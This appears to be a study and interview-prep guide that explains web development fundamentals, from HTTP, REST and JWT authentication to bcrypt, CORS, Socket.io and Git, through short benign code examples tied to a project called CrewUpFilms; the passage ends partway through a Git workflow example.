Before HTTP, retrieving files across distributed networks required disparate, non-standardized network utilities (FTP, Gopher, Telnet). HTTP established a uniform, standardized syntax allowing any client operating system to interact with any server operating system without specialized software drivers.

#### Tiny Example
```http
POST /api/auth/login HTTP/1.1
Host: api.crewupfilms.com
Content-Type: application/json
Authorization: Bearer eyJhbGciOi...

{
  "email": "director@example.com",
  "password": "SecretPassword123"
}
```

#### Common Mistakes
- Confusing HTTP methods: Using `GET` for state-mutating actions (like deleting records or submitting passwords), which exposes sensitive parameters in browser history and server access logs.
- Incorrect Status Codes: Returning HTTP `200 OK` when an operation failed, hiding errors inside the JSON body (`{ status: "error" }`). Clients and monitoring tools rely on native HTTP status codes (`400`, `401`, `404`, `500`).

#### How It's Used in THIS Project Specifically
- [client/src/lib/api.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/client/src/lib/api.js) configures an Axios instance that executes HTTP verbs (`api.get`, `api.post`, `api.put`, `api.patch`, `api.delete`).
- Standardized HTTP status codes are returned throughout: `201 Created` for new projects in [server/src/controllers/projectController.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/controllers/projectController.js), `401 Unauthorized` for expired JWTs, `403 Forbidden` for unverified KYC creators, and `409 Conflict` for duplicate role applications.

---

### Basics Box 2: REST (Representational State Transfer) [Backend]

#### What It Is
REST is an architectural design pattern for building web APIs. Coined by Roy Fielding in 2000, REST treats data entities as **Resources** identified by unique URLs (URIs) and manipulated using standard HTTP verbs.
- **Analogy**: A library card catalog. The URL is the call number identifying the specific book (`/books/123`). The action you take on the book is determined by standard verbs: Read (`GET`), Check Out (`POST`), Update Cover (`PUT`), Return/Discard (`DELETE`).

#### Why It Exists
Before REST, remote procedure calls (like SOAP or XML-RPC) used arbitrary, inconsistent endpoint names (e.g. `/api/getUserDetails`, `/api/modify_user_record`, `/api/removeUserFromDatabase`). REST brought architectural consistency, predictable caching, and stateless decoupled server design.

#### Tiny Example
```javascript
// Express REST resource routing for Projects
router.get(   '/projects',     getProjects);    // List projects (Read)
router.post(  '/projects',     createProject);  // Create a new project
router.get(   '/projects/:id', getProjectById); // Retrieve a single project
router.put(   '/projects/:id', updateProject);  // Replace/Update a project
router.delete('/projects/:id', deleteProject);  // Remove a project
```

#### Common Mistakes
- Putting verbs inside URLs: Designing endpoints like `/api/projects/delete/123` or `/api/createNewApplication` rather than using HTTP methods (`DELETE /api/projects/123` and `POST /api/applications`).
- Breaking Statelessness: Storing client session state in server memory rather than requiring every request to supply complete credentials (such as an Authorization Bearer token).

#### How It's Used in THIS Project Specifically
- The Express backend mounts 24 REST resource modules under `/api/...` in [server/src/server.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/server.js).
- Sub-resources model hierarchical real-world relationships cleanly:
  - `/api/projects/:id/tasks` (Tasks belonging to a project)
  - `/api/projects/:id/files` (Production files belonging to a project)
  - `/api/projects/:id/schedule` (Shoot days belonging to a project)

---

### Basics Box 3: JSON (JavaScript Object Notation) [Both]

#### What It Is
JSON is a lightweight, human-readable data interchange format. Derived from the object literal syntax of JavaScript, it is completely language-independent and supported natively across virtually every modern programming language.
- **Analogy**: The universal Esperanto of software. A Python backend, a Node server, and a Swift mobile app can all share structured data using JSON without needing to understand each other's native memory representations.

#### Why It Exists
Prior to JSON, XML (eXtensible Markup Language) was the standard for web data exchange. XML was notoriously verbose, bloated network payloads with repetitive closing tags (`<filmmaker><name>John</name></filmmaker>`), and required complex DOM parsers. JSON reduced payload sizes and parses natively in JavaScript via a single built-in call.

#### Tiny Example
```javascript
// JSON Serialization and Deserialization
const creator = { username: "kubrick", isVerified: true, films: 13 };

// Convert JavaScript Object to JSON String for network transmission:
const jsonString = JSON.stringify(creator);
// '{"username":"kubrick","isVerified":true,"films":13}'

// Parse incoming network JSON string back into native JavaScript Object:
const parsedObj = JSON.parse(jsonString);
console.log(parsedObj.username); // "kubrick"
```

#### Common Mistakes
- Syntax errors: Using single quotes (`'`) instead of double quotes (`"`) around keys and strings, leaving trailing commas after the final element, or attempting to serialize functions or undefined values.
- Blocking the Event Loop: Calling `JSON.parse()` or `JSON.stringify()` on massive multi-megabyte payloads synchronously in Node.js, which temporarily freezes the single-threaded event loop.

#### How It's Used in THIS Project Specifically
- Configured in [server/src/server.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/server.js) via `express.json({ limit: '10mb' })` to parse incoming request payloads into `req.body`.
- Used in [client/src/lib/auth.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/client/src/lib/auth.js) to serialize the user object into `localStorage.setItem('crewup_user', JSON.stringify(user))`.
- Overridden in [server/src/models/User.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/models/User.js) via `userSchema.methods.toJSON` to automatically strip password hashes before responses are sent.

---

### Basics Box 4: Node.js Event Loop [Backend]

#### What It Is
The Event Loop is the secret behind Node.js's ability to handle tens of thousands of concurrent network connections despite running on a **single execution thread**. It continuously checks whether the Call Stack is empty and moves asynchronous callbacks from queues into the call stack for execution.
- **Analogy**: A master chef in a restaurant. Instead of standing in front of an oven for 45 minutes waiting for a turkey to roast (blocking), the chef slides the turkey into the oven, sets a timer, and immediately prepares salads and chops vegetables for other customers. When the timer dings, the chef returns to carve the turkey.

#### Why It Exists
Traditional web servers (like Apache) allocated a dedicated operating system thread for every incoming HTTP request. If thousands of requests arrived simultaneously, the server consumed gigabytes of memory switching context between threads, eventually crashing. Node.js uses non-blocking I/O and an event loop to achieve high throughput with minimal memory footprint.

#### Tiny Example
```javascript
console.log('1. Script begins');

setTimeout(() => {
  console.log('4. Macro-task timer fired');
}, 0);

Promise.resolve().then(() => {
  console.log('3. Micro-task promise resolved');
});

console.log('2. Script ends');

// Execution Order:
// 1. Script begins
// 2. Script ends
// 3. Micro-task promise resolved (Micro-tasks run BEFORE the next event loop turn)
// 4. Macro-task timer fired
```

#### Common Mistakes
- Blocking the Event Loop with heavy CPU computation (e.g. running complex cryptographic loops, massive regexes, or large image resizing synchronously), preventing the server from accepting incoming HTTP requests or responding to Socket pings.

#### How It's Used in THIS Project Specifically
- Enables [server/src/server.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/server.js) to maintain hundreds of concurrent persistent Socket.io connections while simultaneously processing MongoDB queries and sending emails asynchronously without blocking the server.

---

### Basics Box 5: Async / Await and Asynchronous JavaScript [Backend]

#### What It Is
`async/await` is modern syntactic sugar built on top of JavaScript Promises. It allows developers to write asynchronous, non-blocking code that reads sequentially like synchronous code, eliminating deeply nested callback chains ("Callback Hell").
- **Analogy**: Waiting for a rideshare. Instead of standing on the street frozen until the driver arrives (synchronous blocking) or giving someone a pager to ring you (callback), `await` pauses the local function context, lets the rest of the world keep moving, and resumes execution seamlessly when the driver pulls up.

#### Why It Exists
JavaScript originally handled asynchronous operations (like network requests or database queries) using callbacks. When multiple asynchronous actions depended on one another, code nested deeply into unmaintainable pyramids of doom (`doA(function(err, resA) { doB(resA, function(err, resB) { ... }) })`). `async/await` flattened this structure and enabled standard `try/catch` error handling.

#### Tiny Example
```javascript
// Clean async/await with try/catch error handling
async function fetchProjectData(projectId) {
  try {
    const project = await Project.findById(projectId); // Non-blocking pause
    if (!project) throw new Error('Project does not exist');
    return project;
  } catch (error) {
    console.error('Database query failed:', error.message);
    throw error;
  }
}
```

#### Common Mistakes
- Forgetting `await`: Writing `const user = User.findById(id)` without `await`, which assigns a pending Promise object to `user` instead of the actual document.
- Sequential blocking: Awaiting independent operations sequentially (`await getA(); await getB();`) instead of running them concurrently using `Promise.all([getA(), getB()])`.

#### How It's Used in THIS Project Specifically
- Extensively utilized in [server/src/controllers/projectController.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/controllers/projectController.js), running independent database lookups concurrently:
  ```javascript
  const [existingProjectCount, reportCount, creatorProfile] = await Promise.all([
    Project.countDocuments({ createdBy: req.user._id }),
    Report.countDocuments({ targetId: req.user._id, targetType: 'user' }),
    Profile.findOne({ user: req.user._id }).select('bio skills').lean(),
  ]);
  ```

---

### Basics Box 6: Express Middleware Pipeline [Backend]

#### What It Is
Middleware functions are modular interceptors in an Express application that have access to the Request object (`req`), the Response object (`res`), and the `next` function in the application's request-response cycle.
- **Analogy**: An airport security checkpoint. Before you board a flight (the Controller), you pass through metal detectors (`helmet`), ticket validation (`cors`), baggage scanners (`express.json`), and passport control (`auth.protect`). If any checkpoint rejects you, your journey ends immediately; otherwise, the officer stamps your passport and calls `next()`.

#### Why It Exists
Without middleware, every individual route controller would need to duplicate code to parse JSON bodies, log timestamps, verify JWT tokens, and validate rate limits. Middleware separates cross-cutting concerns from business logic.

#### Tiny Example
```javascript
// Custom Logging Middleware
const requestTimer = (req, res, next) => {
  const start = Date.now();
  res.on('finish', () => {
    const duration = Date.now() - start;
    console.log(`${req.method} ${req.originalUrl} completed in ${duration}ms`);
  });
  next(); // Pass control to the next middleware in the stack
};

app.use(requestTimer);
```

#### Common Mistakes
- Forgetting to call `next()`: If a middleware does not call `next()` or send a response via `res.json()`, the HTTP connection hangs indefinitely until the client times out.
- Registering middleware in the wrong order: Placing `express.json()` after route definitions, which leaves `req.body` undefined when controllers run.

#### How It's Used in THIS Project Specifically
- [server/src/middleware/auth.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/middleware/auth.js) defines `protect` to authenticate tokens, attach `req.user`, and guard private endpoints.
- [server/src/middleware/errorHandler.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/middleware/errorHandler.js) is registered at the very end of `server.js` with 4 arguments `(err, req, res, next)` to intercept all unhandled exceptions.

---

### Basics Box 7: Next.js Route Handlers vs Express [Both]

#### What It Is
Both Next.js and Express handle HTTP requests, but they operate on fundamentally different hosting and execution paradigms:
- **Express**: A persistent, stateful Node.js process that continuously listens on a dedicated network port (`server.listen(5001)`). Sockets and in-memory caches remain alive between requests.
- **Next.js Route Handlers**: Ephemeral serverless functions executed on-demand in response to URL routes (`app/api/.../route.js`), tearing down after the response completes.
- **Next.js Edge Middleware**: Lightweight code running globally on CDN edge nodes (powered by the V8 runtime, not full Node.js) that inspects requests before they hit the server.

#### Why It Exists
Express is ideal for stateful workloads like persistent WebSockets and database connection pools. Next.js App Router and Edge functions excel at localized low-latency caching, server-side rendering, and instant edge redirection.

#### Tiny Example
```javascript
// Next.js 14 App Router Route Handler (app/api/hello/route.js)
import { NextResponse } from 'next/server';

export async function GET(request) {
  return NextResponse.json({ message: 'Hello from Next.js Serverless!' });
}
```

#### Common Mistakes
- Attempting to run persistent state (like a Socket.io server instance or an active Mongoose connection pool) inside a Next.js serverless route handler, which re-initializes on cold starts.

#### How It's Used in THIS Project Specifically
- The architecture uses a clean separation of concerns:
  - **Express (`server/`)** runs as a persistent service on Railway to host the REST API, maintain the MongoDB connection pool, and power persistent Socket.io connections.
  - **Next.js (`client/`)** runs on Vercel to handle React rendering, with [client/src/middleware.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/client/src/middleware.js) running at the edge to gate private beta access.

---

### Basics Box 8: React Hooks (`useState`, `useEffect`, `useContext`, `useRef`) [Frontend]

#### What It Is
React Hooks are built-in functions introduced in React 16.8 that allow functional components to manage local state, execute lifecycle side effects, subscribe to global context, and hold mutable references without writing class components.
- **Analogy**:
  - `useState`: The component's whiteboard. You can write down numbers or names; whenever you erase and write something new, the room re-renders.
  - `useEffect`: An automatic chore list. "Whenever this value changes, go wash the dishes (fetch new data from the API)."
  - `useContext`: A broadcast PA system. Any component in the building can hear the user's login state without passing walkie-talkies down through every floor.
  - `useRef`: An unobserved pocket note. You can change what is written on it anytime without causing the room to re-render.

#### Why It Exists
Before hooks, sharing stateful logic between components required complex class inheritance patterns, higher-order components (HOCs), or render props, which cluttered component trees ("Wrapper Hell").

#### Tiny Example
```jsx
function NotificationBadge() {
  const [unreadCount, setUnreadCount] = useState(0);

  useEffect(() => {
    // Fetch unread count on initial mount
    fetch('/api/notifications/unread-count')
      .then((res) => res.json())
      .then((data) => setUnreadCount(data.count));
  }, []); // Empty dependency array = runs once on mount

  return <span className="badge">{unreadCount}</span>;
}
```

#### Common Mistakes
- Omitting dependencies in `useEffect`: Forgetting variables referenced inside `useEffect` in its dependency array, which causes stale closure bugs where the effect reads outdated state.
- Breaking Rules of Hooks: Calling hooks conditionally (inside `if` statements or loops), which breaks React's internal array index tracking for hooks.

#### How It's Used in THIS Project Specifically
- [client/src/hooks/useAuth.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/client/src/hooks/useAuth.js) combines `useState`, `useEffect`, and `createContext` to provide global session state to the application.
- [client/src/hooks/useSocket.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/client/src/hooks/useSocket.js) uses `useState` to trigger re-renders as soon as the singleton socket connects, ensuring listeners like `socket.on('newMessage')` attach reliably.

---

### Basics Box 9: React Data Fetching (State Management & Lifecycle) [Frontend]

#### What It Is
React data fetching refers to the pattern of retrieving remote API data, storing it in component state, and rendering different UI states based on the network request lifecycle: **Loading**, **Success**, and **Error**.
- **Analogy**: Ordering at a restaurant. You place the order (trigger request), see a "Preparing" indicator (Loading state), receive your meal (Success state), or are told the kitchen ran out of ingredients (Error state).

#### Why It Exists
Network requests are asynchronous and variable. Applications must provide immediate feedback (spinners, skeletons) and handle network timeouts gracefully rather than presenting blank screens or freezing.

#### Tiny Example
```jsx
function ProjectList() {
  const [projects, setProjects] = useState([]);
  const [loading, setLoading]   = useState(true);
  const [error, setError]       = useState(null);

  useEffect(() => {
    projectAPI.getAll()
      .then(({ data }) => setProjects(data.projects))
      .catch((err) => setError(err.response?.data?.message || 'Failed to load'))
      .finally(() => setLoading(false));
  }, []);

  if (loading) return <LoadingSpinner />;
  if (error)   return <ErrorMessage text={error} />;
  return projects.map((p) => <ProjectCard key={p._id} project={p} />);
}
```

#### Common Mistakes
- Memory leaks on unmounted components: Triggering state updates (`setProjects`) after a user has already navigated away from the page, which logs React memory leak warnings.

#### How It's Used in THIS Project Specifically
- Implemented across casting catalog views (`client/src/app/(main)/projects/page.jsx`), pairing state-driven data fetching with reusable UI states like `SkeletonCard` and `LoadingSpinner`.

---

### Basics Box 10: Rendering Paradigms (SSR vs CSR vs SSG) [Frontend]

#### What It Is
Defines when and where application HTML is generated:
- **CSR (Client-Side Rendering)**: The server sends a nearly empty HTML shell with `<div id="root"></div>` and a JavaScript bundle. The browser downloads the JS, builds the DOM, and queries the API.
- **SSR (Server-Side Rendering)**: The server fetches data and renders complete HTML for each incoming request, sending a fully rendered page to the browser.
- **SSG (Static Site Generation)**: Pages are pre-rendered into static HTML files at build time and served instantly via a global CDN.

#### Why It Exists
CSR offers fast page transitions after loading, but suffers from poor initial load times and weaker Search Engine Optimization (SEO). SSR delivers fast initial content and strong SEO at the cost of higher server computation. SSG offers peak performance for static content (like blogs or documentation).

#### Comparison Table

| Paradigm | HTML Built When? | Where? | SEO Strength | Server Computation |
|---|---|---|---|---|
| **CSR** | User visits page | Browser | Weak | Very Low |
| **SSR** | On every request | Node Server | Excellent | Medium / High |
| **SSG** | At build time | CI/CD Pipeline | Excellent | None (Static CDN) |

#### How It's Used in THIS Project Specifically
- Next.js 14 App Router uses **Server Components by default** for marketing pages (`/about`, `/how-it-works`) to ensure strong SEO.
- Interactive dashboards, chat views, and protected forms use the `'use client'` directive to run as **Client Components** with hooks (`useState`, `useSocket`, `useAuth`).

---

### Basics Box 11: MongoDB vs PostgreSQL [Backend]

#### What It Is
The two predominant database paradigms in modern web engineering:
- **MongoDB (NoSQL Document Store)**: Stores data as flexible, schema-agnostic BSON (Binary JSON) documents grouped into collections.
- **PostgreSQL (Relational SQL Database)**: Stores data in rigid, tabular rows and columns with enforced foreign key constraints, schemas, and relational integrity.

#### Comparison Table

| Dimension | MongoDB | PostgreSQL |
|---|---|---|
| **Data Model** | Hierarchical Documents (JSON/BSON) | Relational Tables (Rows & Columns) |
| **Schema Enforcement** | Flexible (enforced at app tier via Mongoose) | Strict (enforced at database engine level) |
| **Joins** | `$lookup` aggregation (slower) | Native relational `JOIN` (highly optimized) |
| **Transactions** | Multi-document ACID (supported since v4.0) | Full native ACID transactions by default |
| **Best Used For** | Polymorphic records, nested arrays, rapid prototyping | Strict financial accounting, complex relational graphs |

#### Why It Exists
PostgreSQL was engineered to guarantee absolute data consistency and eliminate redundancy through normalization. MongoDB was built to support horizontal scale-out architectures, unstructured payloads, and rapid development cycles without migration bottlenecks.

#### Tiny Example
```javascript
// MongoDB Document (Self-contained nested data)
{
  "_id": "proj_123",
  "title": "Indie Short",
  "teamMembers": [
    { "user": "user_456", "role": "Director" },
    { "user": "user_789", "role": "Sound" }
  ]
}
```

```sql
-- PostgreSQL Equivalent (Normalized across tables with foreign keys)
SELECT p.title, u.name, tm.role 
FROM projects p
JOIN project_team_members tm ON p.id = tm.project_id
JOIN users u ON tm.user_id = u.id
WHERE p.id = 'proj_123';
```

#### How It's Used in THIS Project Specifically
- CrewUpFilms uses MongoDB via Mongoose 8. Projects store complex embedded arrays (`teamMembers`, `teamFiles`, `roleDescriptions`, `statusUpdates`) inside a single document, allowing a project and all its casting details to be retrieved in a single read query without multiple relational joins.

---

### Basics Box 12: MongoDB Indexes (B-Tree, Compound & Sparse Indexes) [Backend]

#### What It Is
An index is a specialized data structure (typically a B-Tree) that stores a sorted copy of specific document fields alongside pointers to their physical location on disk.
- **Analogy**: The index at the back of a textbook. To find "Kubrick", you look under the letter 'K' in the index to find page 342 immediately, rather than reading all 800 pages front-to-back (a Collection Scan).

#### Why It Exists
Without an index, MongoDB must perform a **Collection Scan (`COLLSCAN`)**, reading every single document off disk to see if it matches query filters. On large collections, this turns 2ms queries into multi-second bottlenecks that exhaust server CPU and I/O.

#### Tiny Example
```javascript
// Single-Field Index
schema.index({ email: 1 });

// Compound Index (Order matters: Equality, Sort, Range)
schema.index({ status: 1, projectType: 1, createdAt: -1 });

// Sparse Unique Index (Ignores documents where fields are missing)
schema.index({ follower: 1, following: 1 }, { unique: true, sparse: true });
```

#### Common Mistakes
- Index ordering errors in compound indexes: If an index is defined as `{ status: 1, createdAt: -1 }`, querying on `{ createdAt: -1 }` alone cannot utilize the index efficiently (the leading field must be present).
- Over-indexing: Creating indexes on every field. Every index speeds up reads but slows down write operations (`INSERT`, `UPDATE`, `DELETE`) because every index tree must be recalculated on write.

#### How It's Used in THIS Project Specifically
- [server/src/models/Notification.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/models/Notification.js) uses compound indexes `{ recipient: 1, createdAt: -1 }` and `{ recipient: 1, read: 1 }` to retrieve unread alert feeds quickly.
- [server/src/models/Follow.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/models/Follow.js) uses a sparse unique index `{ follower: 1, following: 1 }` to prevent duplicate follows while tolerating legacy documents without these fields.

---

### Basics Box 13: MongoDB Transactions (ACID Guarantees) [Backend]

#### What It Is
A transaction is a sequence of database operations executed as a single, atomic unit under the **ACID** guarantees:
- **Atomicity**: All operations succeed, or all are rolled back ("All or Nothing").
- **Consistency**: The database transitions only between valid states.
- **Isolation**: Concurrent transactions execute without cross-contamination.
- **Durability**: Committed data survives power loss or hardware crashes.

#### Why It Exists
In systems moving money or inventory (e.g. transferring funds between accounts), a server crash halfway through must not deduct money from Account A without crediting Account B.

#### Tiny Example
```javascript
const session = await mongoose.startSession();
session.startTransaction();

try {
  await Account.findByIdAndUpdate(fromId, { $inc: { balance: -100 } }, { session });
  await Account.findByIdAndUpdate(toId,   { $inc: { balance: +100 } }, { session });
  await session.commitTransaction(); // Atomic commit
} catch (error) {
  await session.abortTransaction();  // Rollback on any failure
  throw error;
} finally {
  session.endSession();
}
```

#### How It's Used in THIS Project Specifically
- **NOT USED IN REPO**: The codebase does not use multi-document transactions. Single-document operations in MongoDB are naturally atomic.
- **Interview Positioning**: In an interview, explain: *"While CrewUpFilms currently handles application acceptance and team updates sequentially, in an enterprise refactor I would wrap `updateApplicationStatus` in a multi-document session transaction. This guarantees that adding a user to `project.teamMembers`, updating `Application.status = 'accepted'`, and auto-closing the project to `'in-progress'` succeed atomically without risk of partial state corruption if the server crashes mid-execution."*

---

### Basics Box 14: Stateless Session Authentication with JWT [Both]

#### What It Is
Stateless session management is an authentication architecture where the server does not store active session records in server memory or a database. Instead, the client presents a signed, tamper-proof JSON Web Token (JWT) on every HTTP request, allowing the server to authenticate requests purely through cryptographic math.
- **Analogy**: A theme park wristband. Instead of the gate guard checking a master binder of 50,000 visitor names every time someone gets in line for a roller coaster, the guard inspects the visitor's tamper-evident holographic wristband with an embossed expiration date.

#### Why It Exists
Traditional session cookies require centralized storage (like a Redis session store). In distributed or auto-scaling environments, if an app scales to 10 server nodes, every node must query Redis on every request to validate session IDs. Stateless JWTs allow any server node to validate credentials independently without database lookups.

#### Tiny Example
```javascript
// Server Token Generation
const token = jwt.sign({ id: user._id }, process.env.JWT_SECRET, { expiresIn: '7d' });

// Client Transmission (Axios Header)
config.headers.Authorization = `Bearer ${token}`;

// Server Verification Middleware
const decoded = jwt.verify(token, process.env.JWT_SECRET);
const userId = decoded.id;
```

#### Common Mistakes
- Storing sensitive data in the payload: Placing passwords, secrets, or financial information inside JWT payloads. Base64 encoding is **not** encryption; anyone who intercepts the token can decode and read the payload claims.
- Missing Expiration: Issuing tokens without an `exp` claim, allowing compromised tokens to remain valid indefinitely.

#### How It's Used in THIS Project Specifically
- Centralized in [server/src/utils/generateToken.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/utils/generateToken.js) using a 7-day expiration.
- Verified across all protected routes via [server/src/middleware/auth.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/middleware/auth.js).

---

### Basics Box 15: Password Hashing and Salting with bcrypt [Backend]

#### What It Is
bcrypt is an adaptive cryptographic key derivation function designed specifically for secure password storage. It combines a salt, an adjustable work factor (rounds), and a modified Blowfish block cipher to create an irreversible password hash.
- **Analogy**: Making a custom milkshake. The password is chocolate syrup, and the salt is a random scoop of crushed mint candy. Once blended thousands of times, you cannot un-blend the shake to get the pure syrup back. Even if two people use the same chocolate syrup, different mint candies yield distinct flavors.

#### Why It Exists
Standard hashing algorithms (MD5, SHA-1, SHA-256) were designed for high-speed file checksumming and can process billions of hashes per second. Attackers can leverage consumer GPUs to brute-force millions of SHA-256 password candidates in seconds. bcrypt deliberately introduces a computational delay, making brute-force attacks economically and computationally infeasible.

#### Tiny Example
```javascript
// Generation with Salt Rounds (12 = 4,096 iterations)
const salt = await bcrypt.genSalt(12);
const hash = await bcrypt.hash("MyPassword123", salt);
// Output format: $2a$12$e8uqN5vU3Z... (algorithm, cost, salt, hash)

// Verification
const isMatch = await bcrypt.compare("CandidatePassword", hash);
// Returns true or false in constant time
```

#### Common Mistakes
- Double-hashing on update: Forgetting to verify whether the password field was actually modified before calling `bcrypt.hash()` in Mongoose pre-save hooks, which results in hashing an already-hashed string when updating basic profile fields.

#### How It's Used in THIS Project Specifically
- [server/src/models/User.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/models/User.js) uses 12 salt rounds inside its pre-save hook:
  ```javascript
  if (this.isModified('password') && this.password) {
    const salt   = await bcrypt.genSalt(12);
    this.password = await bcrypt.hash(this.password, salt);
  }
  ```
  The `this.isModified('password')` check ensures passwords are not re-hashed when other profile fields are updated.

---

### Basics Box 16: Cross-Origin Resource Sharing (CORS) [Both]

#### What It Is
CORS is a browser security mechanism based on the **Same-Origin Policy**. It governs whether client-side JavaScript executing on one origin (domain, protocol, or port) is permitted to request resources from a different origin.
- **Analogy**: A private building security desk. If a visitor arrives from a different office complex (`localhost:3000`), the receptionist checks a security whitelist from building management (`Express server`). If the visitor's company is on the approved list, they are allowed into the elevators; otherwise, entry is denied.

#### Why It Exists
Without CORS and the Same-Origin Policy, a malicious website (`evil-site.com`) visited in your browser could make unauthorized background AJAX requests to your bank's API (`bank.com/transfer`) using your stored browser cookies.

#### Tiny Example
```javascript
// Express CORS Configuration with Custom Verification
app.use(cors({
  origin: (origin, callback) => {
    const whitelist = ['https://crewupfilms.com', 'https://www.crewupfilms.com'];
    if (!origin || whitelist.includes(origin)) {
      callback(null, true); // Allow request
    } else {
      callback(new Error('Blocked by CORS')); // Deny request
    }
  },
  credentials: true, // Allow incoming cookies and authorization headers
}));
```

#### Common Mistakes
- Misconfiguring wildcard origins with credentials: Using `origin: '*'` alongside `credentials: true`. Modern browsers reject this combination for security reasons.
- Handling preflight failures: Forgetting that complex HTTP requests (PUT, DELETE, custom headers like `Authorization`) trigger an initial HTTP `OPTIONS` preflight request. If the server does not handle `OPTIONS` requests, the subsequent request fails.

#### How It's Used in THIS Project Specifically
- [server/src/server.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/server.js) dynamically expands `CLIENT_URL` to include both `www` and non-`www` domain variants, white-listing both during CORS evaluations.

---

### Basics Box 17: WebSockets vs Traditional HTTP [Both]

#### What It Is
The two core network paradigms powering web connectivity:
- **HTTP**: A unidirectional, stateless request-response protocol. The client must always initiate communication; the server cannot push data unprompted.
- **WebSockets**: A persistent, bidirectional, full-duplex TCP connection established via an initial handshake. Both the client and the server can send messages independently at any time.

#### Comparison Table

| Attribute | HTTP / REST | WebSockets (RFC 6455) |
|---|---|---|
| **Connection** | Ephemeral (Opens, responds, closes) | Persistent (Remains open indefinitely) |
| **Data Flow** | Unidirectional (Client requests, Server replies) | Full-Duplex (Simultaneous bidirectional communication) |
| **Header Overhead** | High (Sends cookies, headers with every request) | Low (Lightweight 2 to 10 byte framing overhead) |
| **Server Pushes** | Not natively supported (Requires long-polling) | Native capability (Instant server broadcast) |
| **Best Used For** | Form submissions, search queries, CRUD operations | Live chat, typing indicators, collaborative whiteboards |

#### How It's Used in THIS Project Specifically
- CRUD actions (project creation, application reviews, authentication) run over standard Express HTTP routes.
- Real-time interactions (direct messaging, typing indicators, and instant notification bell updates) run over WebSockets via Socket.io.

---

### Basics Box 18: Socket.io Architecture (Rooms, Namespaces & Events) [Both]

#### What It Is
Socket.io is an event-driven abstraction built on top of WebSockets and HTTP long-polling:
- **Events**: Named communication channels (`socket.emit('sendMessage', data)`, `socket.on('newMessage', cb)`).
- **Rooms**: Server-only virtual channels used to broadcast messages to subsets of connected sockets (`socket.join('roomName')`).
- **Namespaces**: Separate communication endpoints on the same server (e.g. `/chat` vs `/admin`), each with their own event handlers.

#### Why It Exists
Raw WebSockets do not have built-in concepts of "rooms", "channels", or "heartbeats". Managing private messages or multi-user chat rooms using raw WebSockets requires writing manual connection registries and message multiplexers. Socket.io handles rooms and disconnections out of the box.

#### Tiny Example
```javascript
// Server-Side Room Broadcast
io.on('connection', (socket) => {
  // Join a dedicated room
  socket.join('project_room_99');

  // Broadcast to everyone in the room EXCEPT the sender
  socket.to('project_room_99').emit('crewJoined', { user: socket.user.name });

  // Broadcast to EVERYONE in the room including the sender
  io.to('project_room_99').emit('scriptUpdated', { version: 2 });
});
```

#### Common Mistakes
- Emitting from the wrong scope: Confusing `socket.emit` (sends only to the calling client), `socket.to(room).emit` (sends to the room excluding the sender), and `io.to(room).emit` (sends to all sockets in the room).

#### How It's Used in THIS Project Specifically
- Implemented in [server/src/socket/socketHandler.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/socket/socketHandler.js):
  - Every user joins a personal room on connect: `user:<userId>`.
  - Project crews join shared project rooms: `project:<projectChatId>`.
  - Mongoose post-save hooks emit instant notifications: `io.to("user:" + recipientId).emit('newNotification', doc)`.

---

### Basics Box 19: Environment Variables & The 12-Factor App [Both]

#### What It Is
Environment variables are dynamic, operating-system-level key-value pairs accessible to running processes (via `process.env` in Node.js).
- **Analogy**: The electrical configuration of a home appliance. An electric kettle can run on 120V in the US or 230V in the UK using a small switch on the base, without needing the heating element to be re-engineered for each country.

#### Why It Exists
According to the **12-Factor App Methodology**, application code and configuration must be strictly separated. Committing configuration values (passwords, API tokens, database URIs) directly into source code repositories creates severe security vulnerabilities, makes open-sourcing difficult, and requires code changes just to switch between local development and production environments.

#### Tiny Example
```javascript
// Load environment variables from .env file into process.env
require('dotenv').config();

const port = process.env.PORT || 5001;
const dbUri = process.env.MONGO_URI;

if (!process.env.JWT_SECRET) {
  console.error("FATAL: JWT_SECRET environment variable is not defined!");
  process.exit(1);
}
```

#### Common Mistakes
- Committing secrets to version control: Accidental pushes of `.env` files containing live credentials to GitHub.
- Exposing server secrets to the frontend: Next.js only exposes variables prefixed with `NEXT_PUBLIC_` to the browser. Omitting this prefix keeps variables server-only, while adding it to sensitive API keys exposes them in client-side bundles.

#### How It's Used in THIS Project Specifically
- [server/src/server.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/server.js) reads `MONGO_URI`, `JWT_SECRET`, `CLIENT_URL`, and SMTP keys directly from `process.env`.
- Sensitive `.env` files are excluded from Git in the root [.gitignore](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/.gitignore).

---

### Basics Box 20: Git Workflow, Version Control & Collaboration [Both]

#### What It Is
Git is a distributed version control system that tracks changes across computer files over time, enabling multiple software engineers to coordinate work, merge features, branch experiments, and roll back regressions.
- **Analogy**: A video game save-point system with alternate timelines. A commit is a permanent save state. A branch is an alternate timeline where you can explore new features without altering the main storyline. A Pull Request (PR) is the review checkpoint where changes from an alternate timeline are merged into canon.

#### Why It Exists
Before distributed version control, developers coordinated code changes by emailing zip files or overwriting shared files on centralized FTP servers, frequently overwriting colleagues' work and lacking revision histories.

#### Tiny Example
```bash
# Standard Feature Branch Workflow
git checkout -b feature/fraud-scoring   # Create and switch to new branch
git add server/src/services/            # Stage modified files
git commit -m "feat(fraud): implement heuristic keyword detection"
git push origin feature/fraud-scoring   # Push branch to remote repository
